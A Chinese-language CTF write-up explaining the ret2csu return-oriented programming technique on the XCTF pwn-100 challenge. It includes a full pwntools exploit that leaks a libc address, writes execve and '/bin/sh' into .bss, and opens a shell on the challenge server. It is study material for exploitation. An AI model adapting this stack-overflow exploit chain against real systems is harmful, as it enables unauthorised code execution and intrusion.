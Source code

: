 ```yaml
---
layout: article
pageview: true
key: ret2csu
title: ret2csu学习笔记
author: Ch4rc0al
categories:
  - WriteUps
tags:
  - Pwn	
  - CTF
---
```




最近学习了中级Rop中的`ret2csu`技巧，记录一篇WP来巩固学习

<!--more-->

## pwn-100

[例题 pwn-100](https://adworld.xctf.org.cn/task/answer?type=pwn&number=2&grade=1&id=4888&page=1)

>     Arch:     amd64-64-little
>     RELRO:    Partial RELRO
>     Stack:    No canary found
>     NX:       NX enabled
>     PIE:      No PIE (0x400000)

```c
int sub_40068E()
{
  char v1[64]; // [rsp+0h] [rbp-40h] BYREF

  sub_40063D((__int64)v1, 200);
  return puts("bye~");
}
```

此处有栈溢出漏洞，并且可以溢出很大

程序可以调用`puts`和`read`

思路：通过`ret2csu`调用`puts`获取`puts`函数的真实地址，通过`LibcSearcher`拿到基地址，调用`read`向bss段写入`execve`和`/bin/sh\x00`，调用`execve`拿到shell

```
from pwn import *
from LibcSearcher import LibcSearcher
context(os='linux',arch='amd64',log_level='debug')

sh=remote('111.200.241.244',53809)
#sh=process('./pwn100')
elf=ELF('./pwn100')
csu_end=0x40075A
csu_front=0x400740
puts_got=elf.got['puts']
read_got=elf.got['read']
main=0x40068e
bss_base=elf.bss();

def csu(rbx,rbp,r12,r13,r14,r15,last):
    payload='a'*0x40+'bbbbbbbb'
    payload+=p64(csu_end)+p64(rbx)+p64(rbp)+p64(r12)+p64(r13)+p64(r14)+p64(r15)
    payload+=p64(csu_front)+'a'*0x38+p64(last)
    sh.send(payload)
    sh.recvuntil('bye~\n')

csu(0,1,puts_got,0,0,puts_got,main)
puts_addr=u64(sh.recv()[:-1].ljust(0x8,'\x00'))


libc=LibcSearcher('puts',puts_addr)
libc_base=puts_addr-libc.dump('puts')

execve_addr = libc_base + libc.dump('execve')

csu(0,1,read_got,16,bss_base,0,main)

sh.send(p64(execve_addr)+'/bin/sh\x00')

csu(0,1,bss_base,0,0,bss_base+0x8,main)

sh.interactive()
```


